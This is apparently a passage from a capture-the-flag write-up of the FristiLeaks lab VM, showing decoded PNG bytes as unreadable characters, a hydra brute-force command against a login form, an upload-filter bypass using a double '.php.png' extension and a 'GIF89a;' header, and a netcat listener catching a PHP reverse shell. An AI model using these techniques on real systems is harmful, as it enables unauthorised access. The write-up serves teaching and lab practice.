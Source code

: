 ```bash
����9C}�f�P�4��p�]��O���I5c\2hK�G����t��b����#�*�       ��:�����R��J��jƺ$����#+o`���L*9�I:�����,��>��U騢"�3�jƼdȖ�ˆ#۞�����j��)'�zUq��F>L�Z���[Z4���LZ�R}�f�ˑ����S;���|�������f.-������h��FEZ�T_��>�sd�a6�(.�U^n|/�����ZZ��=�#;t����T_��>Trd��+?���8�7�j-�}d��R�t!�#�[/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E��"Gx�#��^/r�9���E�����Z�8�rqIEND�B`�
```

Given that the notes from earlier mentioned how this way of encoding is used for images and the output above starts with `�PNG
`, I `piped` the output to a new file which I gave the `.png` extension. Opening that file showed the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/fristileaks_decodedpic.png)

This seemed like it could work as a password in the login form I found earlier. Now I only had to find the username, which turned out harder than I thought.

I tried the usual ones like `admin`, `root`, `user`, etc. but no luck. I then even ran a bruteforce attempt on the login form using `hydra -L usernames.txt -p keKkeKKeKKeKkEkkEk 192.168.56.113 http-post-form '/fristi/checklogin.php:myusername=^USER^&mypassword=^PASS^:S=Wrong' -w 5 -W 1 -vV` but no matches found. This lead me to believe that the info I needed, again, would be hidden in plain sight somewhere. I took another look at the login form's page source and I noticed the name `eezeepz`. I gave that a try and sure enough, I was in:

![alt]({{ site.url }}{{ site.baseurl }}/images/fristileaks_loggedin.png)

Since this gave me access to some kind of file upload application, I decided to upload a reverse PHP shell and then run it by visiting it via whatever path it would be uploaded to. The file upload application seemed to be whitelisting file extensions, which didn't allow filenames ending in `.php` to be uploaded. This just meant I had to rename the reverse PHP shell to something ending in `.png`. I set up a listener on my Kali machine and then uploaded and opened the file via `192.168.56.113/uploads/php-reverse-shell.php.png`.

Strangely enough this didn't work, despite the message I got telling me the upload was successful and should be found at `/uploads/`. Eventually I found out that on some websites, you can add `GIF89a;` to the header of your file to circumvent extra file checks being done. I did this and my listener finally caught a low privilege shell on the target's system:

```sh
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...                                                                                                                                                    
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.113] 53521                                                                                                              
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux                                                       
 14:58:08 up 14 min,  0 users,  load average: 0.00, 0.00, 0.00                                                                                                                 
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT                                                                                                           
uid=48(apache) gid=48(apache) groups=48(apache)                                                                                                                                
sh: no job control in this shell
sh-4.1$ whoami
whoami
apache
```
